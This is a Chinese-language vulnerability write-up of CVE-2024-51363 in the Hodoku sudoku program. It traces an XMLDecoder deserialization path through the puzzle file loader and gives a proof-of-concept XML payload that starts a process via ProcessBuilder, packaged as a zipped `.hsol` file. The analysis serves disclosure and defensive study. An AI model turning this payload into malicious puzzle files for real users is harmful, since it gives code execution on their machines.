# Hodoku 反序列化RCE漏洞分析(CVE-2024-51363)-先知社区

> **来源**: https://xz.aliyun.com/news/16136  
> **文章ID**: 16136

---

# 通告



# 漏洞分析

根据参考文献，很幸运发现了payload



根据漏洞通告可以了解是反序列化漏洞，看payload可以推测漏洞反序列化是xml反序列化。

那么定位漏洞点`Object sudokuTemp = in.readObject();`



逆向追踪,可以发现initComponents->loadPuzzleMenuItemActionPerformed->loadFromFile->loadFromFile这条链可以完整的触发漏洞。



思路明确了，首先确认一下主键名称**Open Puzzle File...**





找到入点了，分析一下这个段代码

```
this.sudokuFileName = path;
this.sudokuFileType = fileType;
if (fileType == 0) {
    Options.readOptions(path);
    BackgroundGeneratorThread.getInstance().resetAll();
    this.sudokuFileName = null;
} else if (fileType == 1) {
    ZipInputStream zIn = new ZipInputStream(new FileInputStream(path));
    zIn.getNextEntry();
    XMLDecoder in = new XMLDecoder(zIn);
    GuiState state = new GuiState(this.sudokuPanel, this.sudokuPanel.getSolver(), this.solutionPanel);
    Object sudokuTemp = in.readObject();
    if (sudokuTemp instanceof Sudoku2) {
        state.setSudoku((Sudoku2)sudokuTemp);
    } else {
        Sudoku dummy = (Sudoku)sudokuTemp;
        String sudokuTempLib = dummy.getSudoku(ClipboardMode.LIBRARY, (SolutionStep)null);
        state.setSudoku(new Sudoku2());
        state.getSudoku().setSudoku(sudokuTempLib, false);
        state.getSudoku().setInitialState(dummy.getInitialState());
        sudokuTemp = in.readObject();
    }
    ...........
}

```

首先fileType==1



然后读取文件路径，zip文件内容



然后将 XML 格式的数据进行反序列化处理



查看loadFromFile方法，获取fileType为1的文件后缀为`.hsol`



payload制作

```
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>

```

然后将文件zip压缩，将后缀修改成`.hsol`




